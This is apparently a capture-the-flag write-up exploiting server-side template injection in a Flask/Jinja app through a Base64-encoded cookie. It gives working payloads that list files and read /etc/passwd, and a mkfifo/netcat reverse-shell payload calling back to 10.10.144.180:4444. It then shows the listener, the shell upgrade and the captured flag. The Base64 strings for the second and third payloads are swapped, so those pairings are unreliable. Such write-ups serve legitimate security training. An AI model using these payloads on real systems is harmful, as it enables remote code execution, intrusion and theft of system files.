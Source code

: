 <h1>Weaponization</h1>

<p>

- substituted the previous sale´s cookie by <code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code> which encoded to Base64 is <code>e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscycpLnJlYWQoKX19</code><br>
- Current User - <code>Current user - app.py basic.py buy.py __pycache__ static templates venv </code></p>

<img width="1096" height="148" alt="image" src="https://github.com/user-attachments/assets/8b4c3059-1f8c-49fd-be57-f63392d4daab" />

<p>
  
- substituted the previous sale´s cookie by <code>{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}</code> which encoded to Base64 is <code>e3sgZ2V0X2ZsYXNoZWRfbWVzc2FnZXMuX19nbG9iYWxzX18uX19idWlsdGluc19fLm9wZW4oIi9ldGMvcGFzc3dkIikucmVhZCgpIH19</code></p>

<img width="1157" height="167" alt="image" src="https://github.com/user-attachments/assets/3a747b2c-f35d-4fed-8469-14a55b5ad9ae" />

<p>
  
- substituted the previous sale´s cookie by <code>{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}</code> which encoded to Base64 is <code>e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGEnKS5yZWFkKCl9fQ==</code></p>

<img width="1164" height="262" alt="image" src="https://github.com/user-attachments/assets/f0664f96-bf80-4336-bb99-f80e6e02cf98" />


```bash
{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.144.180 4444 >/tmp/f').read()}}

```

```bash
e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfHNoIC1pIDI+JjF8bmMgMTAuMTAuMTQ0LjE4MCA0NDQ0ID4vdG1wL2YnKS5yZWFkKCl9fQ0K
```


<h3>listener</h3>

```bash
:~/Keldagrim# nc -nlvp 4444
```

<h3>shell</h3>

```bash
:~/Keldagrim# nc -nlvp 4444
...
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
jed@ip-10-10-64-159:~/app$ ^Z
jed@ip-10-10-64-159:~/app$ cat /home/jed/user.txt
cat /home/jed/user.txt
thm{d55ac4d0a728741d7b8c23b999e73cf3}
```
